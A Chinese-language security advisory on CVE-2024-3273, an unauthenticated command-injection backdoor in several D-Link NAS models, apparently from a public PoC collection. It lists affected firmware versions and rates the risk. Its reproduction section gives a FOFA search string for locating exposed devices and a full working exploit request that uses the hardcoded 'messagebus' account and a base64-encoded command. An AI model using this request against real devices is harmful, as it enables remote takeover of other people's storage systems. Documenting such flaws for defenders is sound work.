

# D-Link NAS 未授权RCE漏洞(CVE-2024-3273)预警

# 漏洞描述

D-Link NAS nas_sharing.cgi接口存在命令执行漏洞，该漏洞存在于“/cgi-bin/nas_sharing.cgi”脚本中，影响其 HTTP GET 请求处理程序组件。漏洞成因是通过硬编码帐户（用户名：“messagebus”和空密码）造成的后门以及通过“system”参数的命令注入问题。未经身份验证的攻击者可利用此漏洞获取服务器权限。

# 影响范围

DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013

DNS-325 Version 1.01

DNS-327L Version 1.09, Version 1.00.0409.2013

DNS-340L Version 1.08

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

# 漏洞复现

FOFA："Text:In order to access the ShareCenter, please make sure you are using a recent browser(IE 7+, Firefox 3+, Safari 4+, Chrome 3+, Opera 10+)"

POC/EXP：

GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWZjb25maWc= HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9

脚本验证

# 修复方案

**官方修复：**

关闭互联网暴露面或接口

目前厂商已发布升级补丁以修复漏洞

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
